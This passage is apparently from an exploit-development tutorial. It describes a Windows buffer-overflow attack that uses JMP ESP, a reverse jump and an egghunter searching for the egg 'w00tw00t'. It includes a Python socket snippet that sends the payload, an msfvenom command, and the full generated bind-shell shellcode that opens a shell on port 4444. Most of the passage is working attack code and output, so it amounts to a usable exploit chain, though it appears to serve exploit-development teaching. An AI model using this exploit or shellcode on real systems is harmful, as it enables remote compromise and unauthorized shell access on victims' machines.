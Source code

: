 ``` python
with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
```

What will happen is the following:

1. Our buffer will be injected.

2. The `JMP ESP` will be executed.

3. The reverse jump will be executed and land directly to our
    egghunter.

4. The egghunter will iterate through all the memory looking for the
    egg `w00tw00t`.

5. When the egghunter finds the egg, it will execute anything that
    follows, in our case, a bind shellcode.

So, the only thing that’s missing is our shellcode. We will create one
that will bind a shell on port `4444`:

**Creating shellcode.**

``` console
$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"
```
